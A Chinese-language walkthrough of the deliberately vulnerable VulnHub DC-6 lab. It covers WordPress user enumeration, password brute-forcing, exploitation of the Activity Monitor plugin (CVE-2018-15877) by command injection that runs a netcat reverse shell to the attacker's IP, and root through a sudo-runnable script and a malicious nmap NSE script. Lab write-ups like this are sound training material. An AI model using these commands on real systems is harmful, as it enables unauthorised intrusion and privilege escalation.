



# DC6-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-6,315/

**Description**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-6 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:

`192.168.0.142 wordy`

NOTE: I've used 192.168.0.142 as an example. You'll need to use your normal method to determine the IP address of the VM, and adapt accordingly.

This is VERY important.

And yes, it's another WordPress based VM (although only my second one).

**Clue**

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**知识点**
- worpress 插件漏洞利用 (中期)
- 利用 nmap 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.140` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.140
```



一个 SSH 一个 web,先从 web 入手

按照信息修改主机 hosts 文件

修改 kali hosts 文件
```bash
echo "192.168.141.140 wordy" >> /etc/hosts
```

访问 web,发现是个 wordpress 搭建的网站


按照之前 DC2 的经验来,上 wpscan 扫他一波
```bash
wpscan --url http://wordy --enumerate u
```


发现几个用户,尝试爆破弱口令,上了 TOP100 没爆出来,回过头来一看作者给了提示
```
gunzip rockyou.txt.gz
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

估计这玩意就是钦定的字典了，爆破
```
wpscan --url http://wordy --passwords passwords.txt
```


跑出一个 mark
```
Username: mark
Password: helpdesk01
```

登录 http://wordy/wp-login.php ,发现一个插件 activity monitor

---

# 中期-漏洞利用

之前用 wpscan 顺便扫了下漏洞,并没有可以 RCE 的,那么这里猜测可能从这个插件入手,直接搜到一个编号为 CVE-2018-15877 的相应漏洞

kali 监听
```
nc -nlvp 4444
```

burp 抓包利用
```
127.0.0.1| nc -e /bin/sh 192.168.141.134 4444
```



成功弹回

---

# 后期-提权

升级下 shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```



www 用户下啥也没有，tmp 空的，看了下 passwd 有几个 wordpress 一样的用户,拿 helpdesk01 测试了下几个用户都登不上去,顺便翻了下他们的家目录,mark 和 jens 都有东西

```bash
ls /home/graham
ls /home/mark
ls /home/sarah
ls /home/jens
```


可以，直接给了我 graham 账号密码,登上去,然后继续查看


看样子只是个备份脚本,但是没有权限运行,暂放一边,查看下能提权的东西把
```
sudo -l
```


巧了，这个正好可以用 jens sudo 运行,那修改这个脚本来获取 jens 的 shell 试试
```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
whoami
```


切换成功,jens 下在看看有啥能提权的
```bash
sudo -l
```


看着着熟悉的4个字母,不禁露出了猥琐的笑容
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
cd /root
cat *
```


提权成功,感谢靶机作者 @DCUA7
